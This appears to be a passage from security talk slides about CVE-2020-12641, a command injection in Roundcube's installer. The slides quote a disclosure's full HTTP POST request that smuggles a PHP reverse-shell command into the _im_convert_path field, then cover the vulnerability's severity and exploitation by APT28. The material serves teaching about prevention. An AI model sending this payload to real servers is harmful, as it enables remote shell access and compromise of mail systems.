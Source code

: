 * The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format.
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be executed.
* The attacker will have a reverse shell.

> From [DrunkenShells's `Disclosures` repository](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12641-Command%20Injection-Roundcube)



---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 8.12% EPSS (as per 12 March 2024)
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---



## But ... Was it preventable?

---



## Yes, but ..

---



## Not with standard linters or scanners

---
